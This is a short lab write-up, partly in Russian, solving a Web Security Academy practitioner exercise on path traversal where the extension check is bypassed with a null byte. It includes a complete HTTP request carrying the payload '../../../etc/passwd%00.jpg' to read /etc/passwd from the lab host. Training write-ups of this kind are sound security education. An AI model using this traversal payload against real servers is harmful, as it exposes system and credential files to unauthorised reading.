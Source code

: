 # File path traversal, validation of file extension with null byte bypass
PRACTITIONER

This lab contains a path traversal vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the /etc/passwd file.

## Решение
В условии сказано, что приложение проверяет расширение запрашиваемого файла.

В статье ["Advanced Directory Traversal filter bypassing"](https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/AdvancedObfuscationPathtraversal.wiki) найден способ обхода фильтрации через использование т.н. "null byte". Комбинация %00 декодируется в null, который интерпретируется как окончание строки. После прохода через фильтр всё после %00 отбрасывается и происодит чтение запрашиваемого файла:

```
GET /image?filename=../../../etc/passwd%00.jpg HTTP/2
Host: 0a9100f60491d06b803a993a00fa0076.web-security-academy.net
Cookie: session=yQCSyXbLo68iZ7SwCLa10DuR4GOjQeU2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9100f60491d06b803a993a00fa0076.web-security-academy.net/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
```
Задание выполнено.